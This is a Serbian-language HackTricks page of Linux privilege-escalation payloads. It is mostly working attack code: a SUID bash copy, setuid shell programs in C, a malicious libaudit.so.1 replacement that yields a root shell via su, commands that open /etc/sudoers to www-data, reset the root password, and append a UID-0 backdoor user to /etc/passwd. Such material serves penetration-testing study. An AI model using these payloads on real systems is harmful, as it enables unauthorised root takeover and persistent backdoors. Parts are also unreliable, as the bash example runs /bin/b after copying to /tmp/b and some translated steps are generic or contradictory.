 # Payloads to execute

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **kompaniji za kibernetičku bezbednost**? Želite li da vidite svoju **kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Bash

```bash
cp /bin/bash /tmp/b && chmod +s /tmp/b
/bin/b -p #Maintains root privileges from suid, working in debian & buntu
```

## Izvršavanje payloada

Kada je u pitanju izvršavanje payloada, postoje različite tehnike koje možete koristiti za postizanje privilegija. Ovde su neke od njih:

### 1. SUID/SGID programi

SUID (Set User ID) i SGID (Set Group ID) programi su programi koji se izvršavaju sa privilegijama vlasnika ili grupe. Možete iskoristiti ove programe kako biste izvršili payload sa privilegijama vlasnika ili grupe.

### 2. Cron poslovi

Cron poslovi su automatizovani zadaci koji se izvršavaju u određeno vreme ili periodično. Ako imate pristup cron poslovima, možete kreirati novi cron posao koji će izvršiti vaš payload.

### 3. Kernel eksploatacija

Ako pronađete ranjivost u kernelu, možete je iskoristiti kako biste dobili privilegije i izvršili payload.

### 4. Postavljanje backdoor naloga

Ako imate pristup sistemu, možete postaviti backdoor nalog sa privilegijama i izvršiti payload koristeći taj nalog.

### 5. Postavljanje reverse shell-a

Reverse shell vam omogućava da se povežete na ciljni sistem i izvršite payload sa udaljenog računara.

### 6. Exploiting Sudo

Ako imate pristup sudo privilegijama, možete iskoristiti ranjivosti u konfiguraciji sudo-a kako biste izvršili payload sa privilegijama.

### 7. Exploiting weak file permissions

Ako pronađete datoteke sa slabim dozvolama, možete ih iskoristiti kako biste izvršili payload sa privilegijama vlasnika datoteke.

### 8. Exploiting weak service configurations

Ako pronađete slabu konfiguraciju servisa, možete je iskoristiti kako biste izvršili payload sa privilegijama tog servisa.

### 9. Exploiting software vulnerabilities

Ako pronađete ranjivost u softveru koji se izvršava na ciljnom sistemu, možete je iskoristiti kako biste dobili privilegije i izvršili payload.

### 10. Exploiting misconfigurations

Ako pronađete greške u konfiguraciji sistema, možete ih iskoristiti kako biste dobili privilegije i izvršili payload.

```c
//gcc payload.c -o payload
int main(void){
setresuid(0, 0, 0); //Set as user suid user
system("/bin/sh");
return 0;
}
```

```c
//gcc payload.c -o payload
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

int main(){
setuid(getuid());
system("/bin/bash");
return 0;
}
```

```c
// Privesc to user id: 1000
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
char *const paramList[10] = {"/bin/bash", "-p", NULL};
const int id = 1000;
setresuid(id, id, id);
execve(paramList[0], paramList, NULL);
return 0;
}
```

## Prepisivanje fajla radi eskalacije privilegija

### Uobičajeni fajlovi

* Dodaj korisnika sa lozinkom u _/etc/passwd_
* Promeni lozinku unutar _/etc/shadow_
* Dodaj korisnika u sudoers u _/etc/sudoers_
* Zloupotrebi docker preko docker socket-a, obično u _/run/docker.sock_ ili _/var/run/docker.sock_

### Prepisivanje biblioteke

Proveri biblioteku koju koristi neki binarni fajl, u ovom slučaju `/bin/su`:

```bash
ldd /bin/su
linux-vdso.so.1 (0x00007ffef06e9000)
libpam.so.0 => /lib/x86_64-linux-gnu/libpam.so.0 (0x00007fe473676000)
libpam_misc.so.0 => /lib/x86_64-linux-gnu/libpam_misc.so.0 (0x00007fe473472000)
libaudit.so.1 => /lib/x86_64-linux-gnu/libaudit.so.1 (0x00007fe473249000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fe472e58000)
libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fe472c54000)
libcap-ng.so.0 => /lib/x86_64-linux-gnu/libcap-ng.so.0 (0x00007fe472a4f000)
/lib64/ld-linux-x86-64.so.2 (0x00007fe473a93000)
```

U ovom slučaju pokušajmo se predstaviti kao `/lib/x86_64-linux-gnu/libaudit.so.1`.\
Dakle, provjerite funkcije ove biblioteke koje koristi **`su`** binarna datoteka:

```bash
objdump -T /bin/su | grep audit
0000000000000000      DF *UND*  0000000000000000              audit_open
0000000000000000      DF *UND*  0000000000000000              audit_log_user_message
0000000000000000      DF *UND*  0000000000000000              audit_log_acct_message
000000000020e968 g    DO .bss   0000000000000004  Base        audit_fd
```

Simboli `audit_open`, `audit_log_acct_message`, `audit_log_acct_message` i `audit_fd` verovatno potiču iz biblioteke libaudit.so.1. Pošto će libaudit.so.1 biti prebrisana zlonamernom deljenom bibliotekom, ovi simboli treba da budu prisutni u novoj deljenoj biblioteci, inače program neće moći da pronađe simbol i završiće izvršavanje.

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

//gcc -shared -o /lib/x86_64-linux-gnu/libaudit.so.1 -fPIC inject.c

int audit_open;
int audit_log_acct_message;
int audit_log_user_message;
int audit_fd;

void inject()__attribute__((constructor));

void inject()
{
setuid(0);
setgid(0);
system("/bin/bash");
}
```

Sada, samo pozivajući **`/bin/su`** dobićete root shell.

## Skripte

Možete li naterati root da izvrši nešto?

### **www-data u sudoers**

```bash
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

### **Promena lozinke za root korisnika**

```bash
sudo passwd root
```

Ova komanda omogućava promenu lozinke za root korisnika. Nakon izvršavanja komande, bićete upitani da unesete novu lozinku za root korisnika.

```bash
echo "root:hacked" | chpasswd
```

### Dodavanje novog root korisnika u /etc/passwd

Da biste dodali novog root korisnika u datoteku /etc/passwd, pratite sledeće korake:

1. Otvorite terminal i prijavite se kao root korisnik.
2.  Pokrenite sledeću komandu da biste otvorili /etc/passwd datoteku u uređivaču teksta:

    ```bash
    nano /etc/passwd
    ```
3.  U datoteci /etc/passwd, pronađite red koji sadrži informacije o root korisniku. Obično se nalazi na početku datoteke i izgleda slično ovome:

    ```plaintext
    root:x:0:0:root:/root:/bin/bash
    ```
4. Kopirajte ovaj red i nalepite ga ispod originalnog reda.
5. Promenite korisničko ime novog korisnika u željeni naziv.
6. Sačuvajte izmene i zatvorite uređivač teksta.

Nakon ovih koraka, novi root korisnik će biti dodat u /etc/passwd datoteku.

```bash
echo hacker:$((mkpasswd -m SHA-512 myhackerpass || openssl passwd -1 -salt mysalt myhackerpass || echo '$1$mysalt$7DTZJIc9s6z60L6aj0Sui.') 2>/dev/null):0:0::/:/bin/bash >> /etc/passwd
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite svoju **kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
